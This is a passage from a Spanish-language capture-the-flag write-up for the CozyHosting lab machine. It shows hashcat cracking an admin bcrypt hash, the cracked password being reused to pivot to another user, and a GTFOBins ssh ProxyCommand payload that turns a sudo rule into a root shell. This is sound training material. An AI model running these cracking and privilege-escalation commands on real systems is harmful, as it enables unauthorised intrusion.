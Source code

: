 Trataremos de crackear estos hashes obtenidos, verificamos que logramos obtener las credenciales en texto plano del usuario llamado `admin`.

```bash
❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

...[snip]...

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

Dado que únicamente `josh` era el usuario que disponía de bash, probamos de acceder con él para ver si esta contraseña se reutilizaba en este usuario. Logramos pivotar de usuario y verificar la flag de **user.txt**.

```bash
app@cozyhosting:/$ su josh
Password: 
josh@cozyhosting:/$ cd /home/josh
josh@cozyhosting:~$ cat user.txt 
ef4f1dc1330f********************
```

## Privilege Escalation

### Abusing sudoers privilege (ssh)

Revisando los permisos de `sudoers` que dispone el usuario `josh`, verificamos que puede ejecutar como `root` el binario de `/usr/bin/ssh`.

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

En `GTFOBins` nos encontramos con la siguiente página la cual nos menciona como aprovecharnos de este permiso enel binario de `ssh`. Ejecutamos el comando que se nos menciona, verificamos que nos convertimos en usuario`root` y logramos visualizar la flag de **root.txt**.

{% embed url="https://gtfobins.github.io/gtfobins/ssh/#sudo" %}

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# cat /root/root.txt
2dfc37e4837************************
```
